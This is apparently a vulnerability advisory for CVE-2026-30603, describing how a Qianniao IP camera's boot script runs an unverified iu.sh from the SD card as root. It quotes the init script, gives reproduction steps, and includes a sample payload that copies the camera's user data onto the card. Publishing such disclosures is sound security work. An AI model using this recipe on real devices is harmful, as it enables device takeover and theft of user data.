

# CVE-2026-30603 - Arbitrary Root Code Execution via SD Card Script Replacement

## Affected Product
Vendor: Qianniao  
Product: IP Security Camera  
Model: QN-L23PA0904  
Firmware Version: 20250721.1640


## Summary  
The boot-time firmware update mechanism in the QN-L23PA0904 IP camera executes an attacker-supplied shell script from an SD card as root without any integrity or authenticity verification. Placing a crafted `iu.sh` shell script on an SD card and inserting it before a boot cycle results in arbitrary root code execution, leading to full device compromise.

## Attack Vector

**Access Required:** Physical access to the SD card slot\
**Complexity:** Low\
**Privileges Required:** None\
**User Interaction:** None - triggers automatically on next boot


## Affected Components

| Component | Path | Role |
|---|---|---|
| `S04app` | `/etc/init.d/S04app` | Boot init script - copies and executes `iu.sh` |
| `iu.sh` | `/usr/bin/iu.sh` | Firmware upgrade script - replaced by attacker copy |


## Vulnerability Details

### Root Cause

During boot, the `S04app` init script checks for an SD card mounted at `/mnt/sd`. If an `upgrade/` directory is present, the script copies `/mnt/sd/iu.sh` to `/home/iu.sh` and executes it as root without any verification.

```sh
# /etc/init.d/S04app (abridged)
if [ -d /mnt/sd/upgrade ] ; then
    if [ -f /usr/bin/iu.sh ] ; then
        cp /usr/bin/iu.sh /home/
        chmod +x /home/iu.sh
    fi
    if [ -f /mnt/sd/iu.sh ] ; then       # attacker-controlled file
        cp /mnt/sd/iu.sh /home/           # overwrites system copy
        chmod +x /home/iu.sh
    fi
    if [ -x /home/iu.sh ] ; then
        /home/iu.sh -p -d -s              # executed as root
    fi
fi

```


## Proof of Concept

### Steps to Reproduce 

1. Create an SD card with the following structure:
   ```
   /mnt/sd/
   ├── iu.sh         # crafted payload script
   └── upgrade/     # directory must exist to trigger the code path
   ```

2. The `iu.sh` script is executed as root on the next boot.

3. Verified result: attacker-controlled code runs with full root privileges before the main application starts.  


Example iu.sh script demonstrating data exfiltration below:
```bash
echo "Nick was here"
echo "Exfil from /app/userdata"
cp -r /app/userdata/ /mnt/sdcard/exfil
echo "Exfil Complete"
```



## References
- CWE-494: https://cwe.mitre.org/data/definitions/494.html
- CWE-345: https://cwe.mitre.org/data/definitions/345.html
